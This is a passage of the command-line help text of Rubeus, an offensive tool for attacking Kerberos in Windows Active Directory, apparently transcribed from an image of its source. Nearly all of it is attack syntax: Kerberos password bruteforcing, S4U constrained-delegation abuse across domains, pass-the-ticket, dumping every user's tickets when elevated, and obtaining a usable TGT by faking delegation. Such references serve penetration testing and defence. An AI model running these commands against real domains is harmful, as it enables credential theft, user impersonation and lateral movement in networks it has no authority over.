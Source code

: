         Retrieve a service ticket for one or more SPNs, optionally saving or applying the ticket:
            Rubeus.exe asktgs </ticket:BASE64 | /ticket:FILE.KIRBI> </service:SPN1,SPN2,...> [/enctype:DES|RC4|AES128|AES256] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/enterprise] [/opsec] </tgs:BASE64 | /tgs:FILE.KIRBI> [/usesvcdomain]

        Renew a TGT, optionally applying the ticket, saving it, or auto-renewing the ticket up to its renew-till limit:
            Rubeus.exe renew </ticket:BASE64 | /ticket:FILE.KIRBI> [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/autorenew] [/nowrap]

        Perform a Kerberos-based password bruteforcing attack:
            Rubeus.exe brute </password:PASSWORD | /passwords:PASSWORDS_FILE> [/user:USER | /users:USERS_FILE] [/domain:DOMAIN] [/creduser:DOMAIN\\USER & /credpassword:PASSWORD] [/ou:ORGANIZATION_UNIT] [/dc:DOMAIN_CONTROLLER] [/outfile:RESULT_PASSWORD_FILE] [/noticket] [/verbose] [/nowrap]


     Constrained delegation abuse:

        Perform S4U constrained delegation abuse:
            Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self]
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self] [/bronzebit]

        Perform S4U constrained delegation abuse across domains:
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER /targetdomain:DOMAIN.LOCAL /targetdc:DC.DOMAIN.LOCAL [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/self]


     Ticket management:

        Submit a TGT, optionally targeting a specific LUID (if elevated):
            Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]

        Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
            Rubeus.exe purge [/luid:LOGINID]

        Parse and describe a ticket (service ticket or TGT):
            Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI>


     Ticket extraction and harvesting:

        Triage all current tickets (if elevated, list for all users), optionally targeting a specific LUID, username, or service:
            Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        List all current tickets in detail (if elevated, list for all users), optionally targeting a specific LUID:
            Rubeus.exe klist [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
            Rubeus.exe dump [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM] [/nowrap]

        Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
            Rubeus.exe tgtdeleg [/target:SPN]
